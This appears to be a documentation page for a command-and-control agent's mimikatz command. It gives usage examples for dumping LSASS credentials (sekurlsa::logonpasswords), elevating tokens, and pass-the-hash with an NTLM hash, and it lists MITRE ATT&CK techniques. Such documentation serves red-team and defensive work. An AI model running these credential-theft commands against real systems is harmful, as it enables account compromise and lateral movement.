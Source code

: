 +++
title = "mimikatz"
chapter = false
weight = 103
hidden = false
+++

{{% notice info %}}
Artifacts Generated: Process Create, Process Inject, Process Kill
{{% /notice %}}

## Summary
Execute one or more mimikatz commands.

### Arguments (Positional)
#### Command
The command you would like mimikatz to run. Some commands require certain privileges and may need the `token::elevate` Mimikatz command or the builtin equivalent [`getprivs`](/agents/mapples/commands/getprivs/) to be executed first.

The `mimikatz` binary takes space-separated commands. For example, if you wanted to ensure your token had the correct privileges before dumping LSASS, you could do `mimikatz token::elevate sekurlsa::logonpasswords` to first elevate your token before running `logonpasswords`. Due to this space-separated command list, if you wish to run a command that has arguments (or spaces in its command name), you'll need to encapsulate that command in _escaped_ quotes. 

## Usage
```
mimikatz -Command [command]
```

Example
```
mimikatz sekurlsa::logonpasswords
mimikatz -Command sekurlsa::logonpasswords

# Running one or more commands with spaces in the command name

mimikatz -Command \"privilege::debug\" \"sekurlsa::pth /domain:DOMAIN /user:USERNAME /ntlm:HASH\" exit
```

## See Also
- [dcsync](/agents/mapples/commands/dcsync/)
- [pth](/agents/mapples/commands/dcsync/)

## MITRE ATT&CK Mapping

- T1134
- T1098
- T1547
- T1555
- T1003
- T1207
- T1558
- T1552
- T1550

### Resrouces
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
